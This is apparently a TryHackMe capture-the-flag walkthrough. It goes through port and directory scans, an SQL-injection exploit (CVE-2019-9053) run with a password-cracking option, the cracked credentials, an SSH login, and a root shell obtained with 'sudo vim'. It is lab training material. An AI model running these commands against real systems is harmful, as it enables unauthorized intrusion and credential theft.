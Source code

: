 # TryHackMe CTF Walkthrough

## 1. Services Running Under Port 1000
**Question:** How many services are running under port 1000?  
**Answer:** 2  
**Command:** 
```bash
nmap -sV [Target_Machine_Ip] -T5
```

**Nmap Scan Results:**
```
Starting Nmap 7.94SVN (https://nmap.org) at 2024-10-03 13:06 EEST 
Nmap scan report for 10.10.66.220
Host is up (0.086s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 29.27 seconds
```

## 2. Higher Port Service
**Question:** What is running on the higher port?  
**Answer:** SSH  

## 3. CVE Used
**Question:** What's the CVE you're using against the application?  
**Answer:** CVE-2019-9053  

## 4. Directory Enumeration
**Command:**
```bash
gobuster dir -u http://[Target_Machine_Ip] -w /usr/share/wordlists/dirb/big.txt
```
**Gobuster Scan Results:**
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.66.220
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 300]
/simple               (Status: 301) [Size: 313] [--> http://10.10.66.220/simple/]                                                         

Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
```



## 5. Application Vulnerability
**Question:** To what kind of vulnerability is the application vulnerable?  
**Answer:** SQLi  


## 6. Exploiting the Vulnerability
**Question:** What can you leverage to exploit the vulnerability?  
**Answer:**   
**Command:**
```bash
python 46635.py -u http://[Target_Machine_Ip]/simple --crack -w /usr/share/wordlists/rockyou.txt
```

## 7. Exploit Output
**Question:** What information do you receive after exploiting the vulnerability?  
**Output:**
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## 8. Login Information
**Question:** Where can you log in with the details obtained?  
**Answer:** SSH  

**Question:** What password do you enter when prompted?  
**Answer:** secret  

## 9. User Flag
**Question:** What’s the user flag?  
**Answer:** G___ ___, ____ _p!  
**Method:** After logging in, the user can easily find the `user.txt` file in the home directory.

## 10. Other User in Home Directory
**Question:** Is there any other user in the home directory? What’s its name?  
**Answer:** sunbath  
**Method:** Navigate to the previous directory using `cd ..` and list the contents with `ls` to find another user.

## 11. Spawning a Privileged Shell
**Question:** What can you leverage to spawn a privileged shell?  
**Answer:** vim  
**Method:** After running the command:
```bash
sudo -l
```

## 12. Command to Spawn Privileged Shell
**Question:** What command do you use to spawn a privileged shell?  
**Method:** After running the command:
**Command:**
```bash
sudo vim -c ':!/bin/sh'
```

## 13. Finding the Root Flag
**Question:** How do you find the root flag?  
**Method:** Navigate to the root folder to find the `root.txt` file.  


**Flag:** W___ ____. ___ ____ _t!
